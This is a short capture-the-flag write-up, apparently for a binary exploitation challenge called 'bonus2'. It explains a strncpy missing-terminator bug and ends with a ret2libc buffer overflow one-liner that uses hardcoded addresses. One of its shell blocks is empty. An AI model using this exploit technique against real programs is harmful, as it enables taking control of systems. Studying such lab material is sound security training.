 We start by opening the file in [dogbolt](https://dogbolt.org/).
Here we see that we will use the fact `strncpy` don't put `\0` in some case.

Here we will overflow using the same method as in the bonus0.
We see that 40 char form `argv[1]` is copied by a `strncpy`
And 32 char is copied from `argv[2]`

So we will try to make the program copy `argv[1]` and `argv[2]` in the first `strncpy`:
[ARGV 1][ARGV 2][ARGV2]

We find the offset to overflow :
```Shell

```

Since we have more than 12 bytes we can try to use a Ret 2 libc.
A Ret 2 libc is compose of :
[Address of system][return address of system][command to execute]


First arg:           Second arg :
[Fill the first ARG]|[Offset to overflow][Ret 2 libc]
```Shell
./bonus2 $(python -c 'print "A"* 40') $(python -c 'print "\x90" * 18 + "\x60\xb0\xe6\xb7" + "ABCD" + "\x58\xcc\xf8\xb7"')
```